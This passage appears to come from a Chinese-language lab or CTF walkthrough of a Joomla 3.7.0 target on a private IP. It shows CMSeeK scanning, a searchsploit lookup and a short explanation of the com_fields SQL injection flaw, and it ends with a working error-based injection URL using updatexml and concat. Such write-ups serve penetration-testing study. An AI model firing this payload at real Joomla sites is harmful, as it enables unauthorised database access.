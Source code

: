 ![upload successful](https://lnng.top/images/pasted-148.png)

**upload successful**

  
也可使用CMSseek进一步扫描

```
安装CMSseek
git clone https://github.com/Tuhinshubhra/CMSeeK
使用
python3 cmseek.py --url 192.168.124.147
```

信息一样  

![upload successful](https://lnng.top/images/pasted-149.png)

**upload successful**

### [](https://lnng.top/posts/2ea3.html#%E6%90%9C%E7%B4%A2joomla%E6%BC%8F%E6%B4%9E "搜索joomla漏洞")搜索joomla漏洞

```
searchsploit joomla 3.7.0
```

![upload successful](https://lnng.top/images/pasted-150.png)

**upload successful**

  
打开查看漏洞详情

```
cat /usr/share/exploitdb/exploits/php/webapps/42033.txt 
```

查看发现存在sql注入，具体漏原理[seebug](https://paper.seebug.org/305/)  
简单来说就是  
com_fields组件，对请求数据没有进行过滤，从而导致sql注入，未过滤位置  

![upload successful](https://lnng.top/images/pasted-152.png)

**upload successful**

  

![upload successful](https://lnng.top/images/pasted-151.png)

**upload successful**

  
测试一下

```
http://192.168.124.147/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x7e,database()),1)
```
